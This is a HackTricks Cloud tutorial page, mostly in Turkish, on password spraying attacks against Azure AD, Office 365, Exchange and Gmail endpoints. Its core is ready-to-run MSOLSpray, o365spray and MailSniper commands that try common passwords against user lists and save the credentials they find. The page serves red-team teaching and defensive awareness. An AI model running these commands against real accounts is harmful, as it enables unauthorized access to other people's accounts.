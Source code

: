 # Az - Password Spraying

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Password Spray

**Azure** üzerinde bu, **Azure AD Graph, Microsoft Graph, Office 365 Reporting webservice** gibi **farklı API uç noktalarına** karşı yapılabilir.

Ancak, bu tekniğin **çok gürültülü** olduğunu ve Mavi Takımın bunu **kolayca yakalayabileceğini** unutmayın. Ayrıca, **zorunlu şifre karmaşıklığı** ve **MFA** kullanımı bu tekniği neredeyse işe yaramaz hale getirebilir.

Bir şifre püskürtme saldırısını [**MSOLSpray**](https://github.com/dafthack/MSOLSpray) ile gerçekleştirebilirsiniz.
```powershell
. .\MSOLSpray\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\validemails.txt -Password Welcome2022! -Verbose
```
Ya da [**o365spray**](https://github.com/0xZDH/o365spray) ile
```bash
python3 o365spray.py --spray -U validemails.txt -p 'Welcome2022!' --count 1 --lockout 1 --domain victim.com
```
Ya da [**MailSniper**](https://github.com/dafthack/MailSniper) ile
```powershell
#OWA
Invoke-PasswordSprayOWA -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile owa-sprayed-creds.txt
#EWS
Invoke-PasswordSprayEWS -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile sprayed-ews-creds.txt
#Gmail
Invoke-PasswordSprayGmail -UserList .\userlist.txt -Password Fall2016 -Threads 15 -OutFile gmail-sprayed-creds.txt
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** bizi **takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
